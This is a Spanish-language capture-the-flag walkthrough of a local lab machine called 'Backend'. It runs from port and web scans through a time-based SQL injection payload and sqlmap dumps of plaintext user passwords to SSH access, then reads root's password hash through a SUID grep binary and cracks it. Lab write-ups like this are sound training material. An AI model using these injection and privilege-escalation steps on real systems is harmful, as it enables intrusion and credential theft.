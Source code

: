 - Tags: #HidenCat
---
[Maquina Backend](https://mega.nz/file/DJlBRQyK#B63IORNn8g03XetnPC7tfG5QFfic_ngyDhTTqI-pb9U) -> Enlace de descarga al laboratorio
```bash
7z x backend.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh backend.tar # Desplegamos el laboratorio.
```

#### Fase Reconocimiento:
```bash
172.17.0.2 # Direccion ip del target.
ping -c 1 172.17.0.2 # Lanzamos una traza ICMP para determinar si tenemos conexion con el target.
wichSystem.py 172.17.0.2 # Determinamos que estamos ante una maquina linux
172.17.0.2 (ttl -> 64): Linux
```

#### Fase Reconocimiento Puertos:
```bash
nmap -p- -sS --open --min-rate 5000 -vvv -Pn -n 172.17.0.2 -oG allPorts # Realizamos descubrimiento de puertos
escanerTCP.py -t 172.17.0.2 -p 1-5000 # Usamos nuestra herramienta apra detectar puertos.
extractPorts allPorts # Parseamos la informacion mas importante del primera escaneo
nmap -sC -sV -p22,80 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar el servicio y la version que corren detras de estos puertos.
```

**( 22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0) )** -> Tenemos un servicio **ssh** expuesto.
**( 80/tcp open  http    Apache httpd 2.4.61 ((Debian)) )** -> Tenemos un servicio web expuesto.

#### Fase Enumeracion Web:
```bash
whatweb http://172.17.0.2 # No reporta nada critico.
```

```bash
nmap --script http-enum -p80 172.17.0.2 # Detectamos lo siguiente.

/login.php: Possible admin folder
/login.html: Possible admin folder
/css/: Potentially interesting directory w/ listing on 'apache/2.4.61 (debian)'
```

**( http://172.17.0.2/ )** -> Tenemos la pagina principal del servicio web.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,css,js,java,php.back,back,txt # Descubrimos esta info.

/index.html           (Status: 200) [Size: 537]
/login.html           (Status: 200) [Size: 635]
/login.php            (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 306] [--> http://172.17.0.2/css/]
```

**( http://172.17.0.2/login.html )** -> Probaremos inyecciones SQL al login para intentar evardir el inicio de sesion. Este panel de inicio de sesion es vulnerable a SQLInjection Basa en Tiempo

```bash
admin' OR IF(SUBSTRING(DATABASE(),1,1)='u', SLEEP(5), 0)-- - # Tenemos la primera letra del nombre de la base de datos
```

**Nota** -> Crearemos un script automatizado para dumpear la base de datos, Ya sabiendo la longitud del nombre de **db** que es de **5** caracteres. Nuestro script no ha funcionado ya que desde el backend nos trunca la inyeccion.

#### Explotacion SQLMap:
```bash
sqlmap -u http://172.17.0.2/login.html --dbs --form -batch # Iniciamos la inyeccion para obtener el nombre de las bases de datos.
[*] users # Tenemos un bd potencial

sqlmap -u http://172.17.0.2/login.html --forms -D users --tables -batch # Fitramos por nombre de la base de datos
usuarios  # Tenemos esta tabla.

sqlmap -u http://172.17.0.2/login.html --forms -D users -T usuarios --dump -batch # Dumpeamos la bd
+----+---------------+----------+
| id | password      | username |
+----+---------------+----------+
| 1  | $paco$123     | paco     |
| 2  | P123pepe3456P | pepe     |
| 3  | jjuuaann123   | juan     |
+----+---------------+----------+
```

#### Fase Intrusion:
**Nota** -> Sabiendo que esta expuesto el servicio **ssh** nos conectaremos con esas credenciales.
```bash
ssh-keygen -R 172.17.0.2 && ssh pepe@172.17.0.2 # Logramos conectarnos como este usuario
```

#### Fase Escalada Privilegios:
```bash
find / -perm -4000 2>/dev/null # Filtramos por permisos SUID

/usr/bin/grep # Tenemos este binario que podemos usar para poder la password de root hasheda.
/usr/bin/grep '' /root/pass.hash # 
e43833c4c9d5ac444e16bb94715a75e4 # Obtenemos este hash tendremos que determinar de que tipo es.
hash-identifier e43833c4c9d5ac444e16bb94715a75e4 # Nos reporat que es de tipo MD5
**spongebob34** -> # Usando una herramienta onlyne obtuvimos este password que utilizaremos para intentar loguearnos como root.
su root # Logramos 
```